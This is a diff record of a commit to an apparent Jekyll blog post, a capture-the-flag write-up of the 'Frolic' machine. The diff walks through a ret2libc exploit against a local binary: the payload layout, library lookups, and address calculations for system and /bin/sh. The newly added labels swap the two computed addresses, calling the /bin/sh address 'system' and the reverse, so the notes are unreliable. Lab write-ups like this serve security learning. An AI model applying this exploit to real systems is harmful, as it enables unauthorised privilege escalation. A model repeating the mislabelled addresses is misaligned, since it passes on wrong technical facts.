

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-08-03-frolic.md, in a window 1280 px wide and 1400 px high, scrolled down 9556 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-08-03-frolic.md
+++ b/_posts/2020-08-03-frolic.md
@@ -379,15 +379,13 @@ www-data@frolic:/home/ayush/.binary$ cat /proc/sys/kernel/randomize_va_space
 0
 ```
 
-There is no ASLR and the stack is not executable, so we can use a RET2LIBC as exploit. I follow this post : [https://thinkloveshare.com/fr/hacking/pwn_2of4_ret2libc/](https://thinkloveshare.com/fr/hacking/pwn_2of4_ret2libc/), for my exploit.
-
-
+There is no ASLR and the stack is not executable, so we can use a RET2LIBC as exploit. I follow this post : [https://thinkloveshare.com/fr/hacking/pwn_2of4_ret2libc/](https://thinkloveshare.com/fr/hacking/pwn_2of4_ret2libc/), for my exploit. Here is what I need for the exploit to work :
 
 ```
 [ 52 x "A" ] [ system address ] [ exit address ] [ /bin/sh address ]
 ```
 
-
+To get those addresses I follow the post :
 
 ```
 www-data@frolic:/home/ayush/.binary$ ldd rop
@@ -396,6 +394,8 @@ www-data@frolic:/home/ayush/.binary$ ldd rop
         /lib/ld-linux.so.2 (0xb7fdb000)
 ```
 
+Offset of libc - 0xb7e19000
+
 ```
 www-data@frolic:/home/ayush/.binary$ readelf -a /lib/i386-linux-gnu/libc.so.6 | grep system
    245: 00112f20    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
@@ -403,20 +403,28 @@ www-data@frolic:/home/ayush/.binary$ readelf -a /lib/i386-linux-gnu/libc.so.6 |
   1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
 ```
 
+Offset of system - 0x0003ada0
+
 ```
 www-data@frolic:/home/ayush/.binary$ grep -boa "/bin/sh" /lib/i386-linux-gnu/libc.so.6
 1423883:/bin/sh
 ```
+
+Offset of /bin/sh in decimal - 1423883
 
 ```
 www-data@frolic:/home/ayush/.binary$ python -c "print hex(1423883 + 0xb7e19000)"
 0xb7f74a0b
 ```
 
+Address of system - 0xb7f74a0b
+
 ```
 www-data@frolic:/home/ayush/.binary$ python -c "print hex(0x0003ada0 + 0xb7e19000)"
 0xb7e53da0
 ```
+
+Address of /bin/sh - 0xb7e53da0
 
 So in my case I have :
 
````
